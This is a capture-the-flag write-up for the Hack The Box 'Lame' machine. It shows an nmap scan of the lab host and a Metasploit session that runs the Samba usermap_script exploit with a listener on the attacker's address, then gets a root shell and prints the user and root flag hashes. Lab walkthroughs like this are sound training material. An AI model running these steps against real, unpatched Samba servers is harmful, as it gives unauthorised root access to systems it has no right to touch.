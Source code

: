 # lame - HTB

## Recon

### Nmap

```shell
└─$ nmap -sC -sV -Pn -oA nmap/lame 10.10.10.3
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 12:32 EDT
Nmap scan report for 10.10.10.3
Host is up (0.011s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m01s, deviation: 2h49m45s, median: 0s
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-09-20T12:32:32-04:00
```

We can see that it is using `Samba smbd 3.X - 4.X ` and on googling that version, I can able to find metasploit exploit.

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

So let's get the root from this exploit.

## Shell

Start `msfconsole`.

```
msf6> search samba username
0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution

msf6> use 0

msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.14.6
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > exploit
whoami
root
cat /root/root.txt
db889423e8fe258e6a7b8ed32898b9ca
cat /home/makis/user.txt
b97ed5745026a71e6493513777849c26
```

Comment - Fairly simple box, teaches about metasploit and CVEs.
